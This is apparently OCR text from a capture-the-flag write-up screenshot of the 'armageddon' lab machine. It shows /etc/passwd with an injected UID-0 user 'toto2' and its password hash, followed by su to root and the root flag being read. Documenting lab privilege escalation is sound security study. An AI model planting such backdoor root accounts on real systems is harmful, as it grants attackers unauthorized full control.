     polkitd:x:999:998:User for polkitd:/:/sbin/nologin
    sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
    postfix:x:89:89::/var/spool/postfix:/sbin/nologin
    apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
    mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
    brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
    toto2:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash
    [brucetherealadmin@armageddon ~]$ su toto2
    Password:
    [root@armageddon brucetherealadmin]# id
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    [root@armageddon brucetherealadmin]# cat /root/root.txt
    59303daefd76582a8731bbc25b7b9c47

